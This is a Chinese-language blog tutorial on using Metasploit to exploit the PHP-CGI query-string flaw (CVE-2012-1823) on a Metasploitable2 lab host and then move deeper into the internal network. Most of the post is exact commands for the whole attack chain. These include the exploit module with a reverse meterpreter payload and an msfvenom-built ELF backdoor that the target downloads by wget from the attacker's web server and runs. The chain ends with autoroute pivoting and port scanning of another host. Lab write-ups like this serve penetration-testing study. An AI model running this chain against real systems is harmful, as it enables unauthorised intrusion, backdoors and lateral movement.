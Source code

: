 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网
lock: need
---
```


# Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机： Metasploitable2 192.168.109.159

内网另一台主机 Windows Server 2012

工具：Metasploit

目标计算机上的漏洞编号为CVE id 2012-1823，完整的名称为PHP-CGI查询字符串参数漏洞，根据PHP主页的信息，当PHP使用基于CGI的设置(如Apache的mod_cgid)时，php-cgi就会收到一个查询字符串参数作为命令行参数(这个命令行参数可以是-s、-d或者-c),它将被传递到php-cgi程序，从而导致源代码泄露和任意代码执行。因此，一个远程的、未经授权的攻击者可以借此获取敏感信息，利用目标计算机来进行Dos攻击，或者取得Web服务器执行任意代码的权限。

## 开启MSF

```
msfconsole
```

## 查找MSF中与CVE id 2012-1823漏洞匹配的模块

```
search "php 5.2.4"
```

## 对漏洞进行渗透

```
use exploit/multi/http/php_cgi_arg_injection
show options
set RHOST 192.168.109.159
show options
show payloads
set payload php/meterpreter/reverse_tcp
show options
set LHOST 192.168.109.137
exploit
```

现在，我们攻克了IP地址为192.168.109.159的内部系统了，现在我们需要将Meterpreter提升为更高的权限

## 生成木马文件

在攻击机Kali上新开一个命令行终端，执行如下命令：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第3步的终端，执行命令：

```
shell
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第3步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.141

为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

## 内网主机192.168.109.141进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.141
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.141，从而无需反复输入这个命令。

这里，我们仅仅看到少数几个开发的端口，接下来，我们使用MSF中对应工具对常见的端口再进行详细的扫描。使用auxiliary/scanner/http/http_header模块对目标80和8080端口进行扫描，以发现在这两个端口上运行的服务。

## 查看在80、8080端口上运行的服务

```
use auxiliary/scanner/http/http_header
set RHOSTS 192.168.109.141
set HTTP_METHOD GET
run
set RPORT 8080
run
```

从输出中可以看到，目标计算机80端口上运行着最新的IIS 8.5, 这是一个很难渗透的服务器，因为并没有在这个服务器上发现高危的漏洞。不过，在8080端口上运行着HFS 2.3，这个软件存在着一个远程代码执行漏洞。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
